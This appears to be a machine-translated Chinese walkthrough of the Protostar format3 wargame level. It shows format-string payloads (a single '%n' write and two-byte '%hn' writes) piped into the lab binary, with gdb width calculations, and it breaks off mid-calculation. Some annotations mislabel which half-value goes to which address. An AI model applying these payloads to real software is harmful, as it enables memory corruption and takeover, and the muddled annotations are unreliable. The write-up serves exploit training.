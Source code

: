 宽度字段计算到`16930112`。让我们将它添加到我们的有效载荷中:

```
**$ python -c 'print "\xf4\x96\x04\x08" + "%16930112x%12$08n"' | /opt/protostar/bin/format3**...(snip for A LOT OF white spaces)... 0
**you have modified the target :)     <-- Winning Statement!**
```

一旦我们运行了更新的有效负载，我们就可以看到获胜的语句。让我们做下一个方法。

## 利用解决方案#2 (2 字节写入)

第二个解决方案是使用短写，更具体地说是使用`%hn`格式字符串参数的 2 字节写操作。

为了更清楚，让我快速解释一下这是如何工作的。首先，让我们在 gdb 中搜索“目标”地址:

```
**(gdb) print &target**
  $1 = (int *) 0x80496f4
```

然后，检查十六进制的`target`地址(在。bss 段，其指未使用的数据段，并且存储在该段中的数据被设置为零)。将其分解为每个字节，显示每个地址:

```
**(gdb) x/wx 0x80496f4**
  0x80496f4 <target>:    0x00**00**|00**00**
                              ⬇
       0x00           **00**             00             **00**
       ------------------------------------------------------
       0x80496**f**7      **0x80496f6**      0x80496f5      **0x80496f4**
```

从上面的表示中，显然现在`target`没有任何值被写入；然而，4 字节十六进制位置(`0x00000000`)是我们需要替换为`0x01025544`的地方。

所以对于 2 字节写方法，我们需要利用地址:`0x80496f4`和`0x80496f6`。

让我们验证我们是否可以在这些`0x80496f6`和`0x80496f4`地址上写入任意值:

```
$ python -c 'print 
"\xf4\x96\x04\x08" +     **# Little-Endian format of 0x80496f4**
"\xf6\x96\x04\x08" +     **# Little-Endian format of 0x80496f6**
"%12$hn" + "%13$hn"'     **# Writing 2 bytes in each offset location**
| /opt/protostar/bin/format3���
target is **00080008** :(
```

我们可以看到，我们的尝试在每个地址位置上写入了`0x0008`值。现在，我们只需要计算宽度字段，以便输出我们想要的值。

```
0x01025544    **<-- Desired value & divide this into 2**
    ⬇ 0x0102      **<-- We will write this on address starting from "f4"**
  0x5544      **<-- We will write this on address starting from "f6"**
    ⬇**[Width Calculation #1: "f4"]
____________________________________________________________________** *# Written value was "0008." In order to calculate the width field, we need to subtract "0008" from our desired value = "0x0102"*(gdb) print 0x0102 - 0x08
  $1 = **250****>>> Payload**
$ python -c 'print 
"\xf4\x96\x04\x08" + 
"\xf6\x96\x04\x08" + 
"%250x%13$hn" +         **# Adding Width = 250**
"%12$hn"' 
| /opt/protostar/bin/format3
��                                                                                                                                                                                                                                                         0
target is **0102**0102 :(    **<-- First 2 bytes written correctly** **[Width Calculation #2: "f6"]
____________________________________________________________________***# From the above calculation as you can see the second 2 byte location is also filled with "0102" which means we need to subtract that value from our desired value.*(gdb) p 0x5544 - 0x0102
```